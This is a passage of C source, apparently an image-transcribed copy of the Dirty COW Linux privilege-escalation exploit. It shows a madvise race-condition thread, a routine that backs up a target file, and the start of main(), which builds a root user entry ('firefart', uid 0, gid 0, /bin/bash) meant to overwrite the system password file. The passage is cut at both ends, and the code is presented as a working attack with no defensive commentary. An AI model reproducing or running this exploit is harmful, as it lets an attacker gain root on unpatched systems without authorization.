     void *madviseThread(void *arg) {
      int i, c = 0;
      for(i = 0; i < 200000000; i++) {
        c += madvise(map, 100, MADV_DONTNEED);
      }
      printf("madvise %d\n\n", c);
    }
    
    int copy_file(const char *from, const char *to) {
      // check if target file already exists
      if(access(to, F_OK) != -1) {
        printf("File %s already exists! Please delete it and run again\n",
          to);
        return -1;
      }
    
      char ch;
      FILE *source, *target;
    
      source = fopen(from, "r");
      if(source == NULL) {
        return -1;
      }
      target = fopen(to, "w");
      if(target == NULL) {
         fclose(source);
         return -1;
      }
    
      while((ch = fgetc(source)) != EOF) {
         fputc(ch, target);
       }
    
      printf("%s successfully backed up to %s\n",
        from, to);
    
      fclose(source);
      fclose(target);
    
      return 0;
    }
    
    int main(int argc, char *argv[])
    {
      // backup file
      int ret = copy_file(filename, backup_filename);
      if (ret != 0) {
        exit(ret);
      }
    
      struct Userinfo user;
      // set values, change as needed
      user.username = "firefart";
      user.user_id = 0;
      user.group_id = 0;
      user.info = "pwned";
      user.home_dir = "/root";
      user.shell = "/bin/bash";
    